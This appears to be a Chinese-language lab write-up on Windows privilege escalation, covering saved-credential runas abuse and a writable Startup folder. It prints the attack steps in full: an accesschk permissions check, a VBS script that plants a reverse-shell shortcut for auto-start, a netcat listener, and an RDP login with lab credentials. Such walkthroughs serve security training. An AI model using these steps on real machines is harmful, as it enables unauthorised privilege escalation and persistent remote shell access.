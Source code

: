 
可以查看小畫家內容的捷徑:

題目中的:
```
C:\Windows\System32\runas.exe /user:admin /savecred %windir%\system32\mspaint.exe
```
一般的
```
%windir%\system32\mspaint.exe
```


## Startup Apps (程序快捷方式進行提權)


startup 目錄
```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\
```

在這目錄下可以存放程式捷徑(.lnk)，開機時會自動打開程式


### accesschk 查看目錄權限
```
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```


```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW WIN-QBA94KB3IOF\Administrator
  RW WIN-QBA94KB3IOF\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone
```

* Users 組可讀寫


官方幫我準備了一個添加reverse.exe 捷徑的腳本

```
cscript C:\PrivEsc\CreateShortcut.vbs
```
* CScript.exe 是Windows腳本宿主的一個版本，可以用來從命令行運行腳本。
https://www.itsfun.com.tw/cscript.exe/wiki-191125-602294

#### CreateShortcut.vbs
```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save

```

### 你用rdp登入admin 密碼 password123 可以拿shell

```
nc -lvnp 53
```
```
rdesktop -u admin 10.10.10.10
```